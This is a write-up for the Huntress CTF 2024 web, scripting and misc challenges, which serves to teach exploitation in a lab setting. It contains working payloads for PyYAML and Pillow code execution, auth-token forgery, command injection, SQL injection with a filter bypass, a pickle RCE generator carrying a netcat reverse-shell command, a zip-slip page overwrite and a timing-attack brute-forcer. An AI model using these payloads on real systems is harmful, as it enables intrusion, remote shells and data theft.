








# Huntress CTF 2024 Writeups
Writeups for all web (6/6) and scripting (2/2) challenges. + misc/time-will-tell


---

# Web 
## Y2J (50 pts)

A web application where we can convert Yaml to JSON. I learned the server uses python and by checking headers and looked for vulnerabilities regarding Yaml especially in Python YAML. 

> Searched and found **CVE-2020-14343** https://nvd.nist.gov/vuln/detail/CVE-2020-14343 that allowed code execution in PyYAML library.

This writeup https://hackmd.io/@harrier/uiuctf20 explains and builds upon the payload. I used this payload to get the flag.

```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "open('/flag.txt','r').read()" ]]]
```

## Plantopia (131 pts)
We given a web application with credentials to the login page. Logging in we can observe that `session` and `auth` cookies are set as well as other cookies.

```
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.ZyaENQ.GHM7nJw9Sk3doUEeOrRuWj4JibI; auth=dGVzdHVzZXIuMC4xNzMwNTgzODIw
```

We can also see there is API documentation but some looks like its for admin.


Accessing these endpoints require us to use an `Authorization` header using the `auth` cookie set during our login. We can set `Authorization: dGVzdHVzZXIuMC4xNzMwNTgzODIw` to access the API. which is just base64 encoded from `testuser.0.1730583820`

Since most of these functionality require admin privileges. I played around and just changed the value from `testuser` to `admin` and from `0` to `1`. and I successfully accessed the `/api/admin/logs`


From there its just playing around with the admin functionalities. We can see that we can change the commands in the `/api/plants/1/edit`


```http
POST /api/plants/1/edit HTTP/1.1
Host: challenge.ctf.games:32308
Authorization: YWRtaW4uMS4xNzMwNTgzODIw
Content-Length: 139
Content-Type: application/json

{
  "description": "A beautiful sunflower.",
  "sunlight_level": 80,
  "watering_threshold": 50,
  "alert_command": "cat flag.txt"
}

```

Then we can trigger it via `/api/admin/sendmail` then view the output in `/api/admin/logs`



## HelpfulDesk (231 pts)
Not going deep into this one. This is duplicate from NahamconCTF
https://www.google.com/search?q=nahamconctf+helpfuldesk+writeup

There is a `/Setup/SetupWizard` path if you download and view the source code where you can change the admin credentials and from there we can get the flag. 

## PillowFight (338 pts)
"PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing" 

Trying out the web application feature we can upload 2 images and combine into `/static/combined.png`. We can also see that this is `Powered by Python Pillow v8.4.0!` as seen from the footer. 

> Searching around, I learned it might be vulnerable to 
> https://nvd.nist.gov/vuln/detail/CVE-2022-22817 
> "PIL.ImageMath.eval in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method. A lambda expression could also be used."

We can see that we can also add custom commands from the API documentation




This looks like we can pass our own `eval` command, so I tried working with python code injection payloads and ended up using a standard os command payload to get the flag and write to the `/static` directory. 

```python
exec('import os; os.system("cat flag.txt> ./static/flag.txt")') 
```


## MOVEable (376 pts)

We can see in the web application a standard login form, no registration. Aside from that we have the source code.

What I observed first in the source code is the `executeScript` under `/login` route.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    if user:
        #...
```

> `executeScript` allows multiple statements   
https://docs.python.org/3/library/sqlite3.html#sqlite3.Cursor.executescript
and will not be able to return any rows so the user will not be able to login regardless if there exists a valid user from the database. 

Under `/download/<filename>/<sessionid>` we can see that it just checks if the session exists from the database and we will be able to download the file.

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

We can also see in the code that when fetching the file it deserializes it using pickle. 

So with this information, I solved by doing the following:
1. Adding a valid session to the `activesessions` table. 
2. Adding a pickle RCE payload to the `files` table. 


### Adding a valid session to the DB
Since we know that the `executeScript` allows multiple statements. We can add an `INSERT` after the initial `SELECT` statement. However we still have to bypass the input sanitation inplaced as the inputs are passed in the `DBClean` function.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

To bypass we can just fill in with comments and backslash `\`:

```SQL
-- input
INSERT/**/INTO/**/table(col)/**/VALUES(\val\)
-- is simply
INSERT INTO table(col) VALUES('val')
```


We can supply an arbitrary username and add our payload in the password like so.

```
password\;INSERT/**/INTO/**/activesessions(sessionid)/**/VALUES(1337);--
```

Note: We can verify if the session is inserted by going to `/download/flag.txt/1337`. and the error is not "No active sessions found"

### Exploiting using Pickle RCE
I was  stuck trying to exfiltrate using boolean based to determine if the database is the same as provided. Once confirmed, I  thought that reading a mangled flag.txt is the challenge or trying to read from a different table. Then I noticed that it is using pickle library for files which can be vulnerable to **deserialization** attacks .

Create generic Pickle RCE payload. There are online guides out there but this is generally what it looks like. 


```python
import pickle, base64
import os, sys


class PickleRCE:
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (os.system, (self.payload,))
        
def pickle_dump(obj):
    return base64.b64encode(pickle.dumps(obj)).decode()


pickled = PickleRCE("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {ip} {port} >/tmp/f")
payload = pickle_dump(pickled)
print(payload)
```

To add this file on the database, we can just use the previous entry point in the password like in the previous payload inserting into `files`. 

```sql
password\;INSERT/**/INTO/**/files(filename,data)/**/VALUES/**/(\pickle.rce\,\gASV....SFlFKULg==\);--
```

Setup a listener `nc -nvlp <port>`

To trigger this pickle RCE we just have to navigate to `/download/pickle.rce/1337`. this depends on the inserted values on the database. Check the listener and well get the shell and find the flag under root. 




## Zippy (392 pts)
The web applications main functionality is the upload and extraction of ZIP files contents.


We can upload zip files in the `/Upload` and browse directories and filenames under `/Browse`.  
Additionally we can observe the backend is asp.net Razor pages when we check the `/Logs`

> I searched for File upload attacks regarding zip files and found the **zip slip vulnerability** and found a guide online https://infosecwriteups.com/zip-slip-vulnerability-064d46ca42e5


I used this vulnerability to change the code of the `Browse.cshtml` Razor page that allowed me to view the contents of files in the server. 

1. Create (Generate using ChatGPT) a `Browse.cshtml` that expects `file` query parameter that outputs the file passed as argument.
```cs
@page
@{
    // Get the file name from the query parameter
    var fileName = Request.Query["file"].ToString();
    var filePath = $"/app/{fileName}"; 
    string fileContent;

    // Check if the file exists and read its content
    if (System.IO.File.Exists(filePath))
    {
        fileContent = System.IO.File.ReadAllText(filePath);
    }
    else
    {
        fileContent = "The specified file does not exist.";
    }
}
<h1>Browse File Content</h1>
<p>@fileContent</p>
```


2. Create malicious `browse.zip` that will replace the application `/app/Pages/Browse.cshtml`

```bash
zip browse.zip ../../../Pages/Browse.cshtml
```

3. Upload the malicious zip file. 

4. Visit the `/Browse` endpoint and notice the page is replaced with our malicious cshtml file. We can get the flag via`?file=flag.txt`


--- 

# Scripting 
## base64by32 (50 pts)
We are given a text file in base64, if we decode the output is still base64. Create a script that can decode it in base64 until it encountered an error

```python
import base64 

b64 = ""
with open('base64by32','r') as file:
    b64 = file.read()

while True:
    try:
        b64 = base64.b64decode(b64).decode().strip('\n')
        print(b64)
    except Exception as e:
        print(e)
        break

print(b64)
```

## Echo Chamber (50 pts)
We are given pcap file. If we open it in wireshark and observe the request/responses we can see some repetitive bytes at the end of the packets.  


First packet shows a repetitive `89` bytes at the end. Succeeding packets shows `89 50 4E` indicating that there might be a PNG file being sent. 

quick reference for magic numbers:
https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5


The packets on last bytes when combined will look like this forming the flag.


To solve we this, we can create a python script parsing the last few bytes and write it to a `PNG` file. I utilized https://github.com/KimiNewt/pyshark 

```python
import pyshark

file = "echo_chamber.pcap"
cap = pyshark.FileCapture(file)

hexdump = []
for i, pkt in enumerate(cap):
    if i % 2:
        # get the last byte
        c = pkt["icmp"].data[-2:]
        hexdump.append(c)
    
hexdump = "".join(hexdump)
print(hexdump)

# write to png
byte_data = bytes.fromhex(hexdump)
with open("flag.png", 'wb') as file:
    file.write(byte_data)
```

---

# Misc
## Time will tell (241 pts)

This is a challenge about trying to guess a randomly generated 8 hexadecimal characters. The important code here is in the check_guess function where it does a `do_heavy_compute()` if the character from our guess matches with the solution.  

```python
def check_guess(guess, realdeal) -> bool:
    """
    validate if the given guess matches what's known
    """
    if len(guess) != len(realdeal):
        #print(len(guess), len(realdeal))
        return False
    do_heavy_compute()
    for idx in range(len(guess)):
        if guess[idx] == realdeal[idx]:
            do_heavy_compute()
        else:
            return False
    return True
```

I have read some writeups regarding timing attacks and relying on the delay on responses. Seeing the source code makes it more understandable how these type of attacks work. 

For more context the `do_heavy_compute()` function is just set on a `time.sleep(0.1)` for this challenge.

Constructing the solution. First we can start a connection using pwntools and print the first few lines. and send a basic guess.

```python
from pwn import *

p = remote('challenge.ctf.games', 30390)

# initial question
lines = p.recvlines(3)
for line in lines:
    print(line)

guess = "12345678"
p.sendlineafter(b':', bytes(guess.encode()))
recv = p.recvline()
print("Guess: ",guess , recv)

```


Since we have a 90 second window to guess, we can run a brute-force by looping through every hex character and observe the response delay using this flow.



So if the observed response increased from the previous ones we find the first character. We append the character to the current guess and continue the loop 

> Continue this until we find the correct password 


We can add this logic to the initial script to brute-force. The brute-force logic would look something like this:
```python
password = ""
max_time = 0.35

print("Bruteforcing...")
for _ in range(8):
    for c in "0123456789abcdef":
        # guess placeholder 
        guess = (password+c).ljust(8,"_")

        # time the response
        before = time.time()
        p.sendlineafter(b':', bytes(guess.encode()))
        recv = p.recvline()
        after = time.time()        
        print(guess, ":", recv, after-before)

        # check if response exceeds the usual time
        if after-before > max_time: 
            max_time = max_time + 0.1
            password = password+c
            print("password:", password)
            break

recv = p.recvline()
print(recv)
p.close()
```
> Note that for max_time varies on the average connection response. during my tries it looks like the incorrect response would take `0.29` seconds and `0.39` seconds if it is correct. so i set the `max_time` to `0.35` initially. It is also important to increase `max_time` as it would increase the delay the more correct characters we have.

When we run the script and we can see it started guessing initial character as `3` as the response time increased to `0.38+secs` 


After a while we can see the script works and we find the correct password `38aacb77` and get the flag.

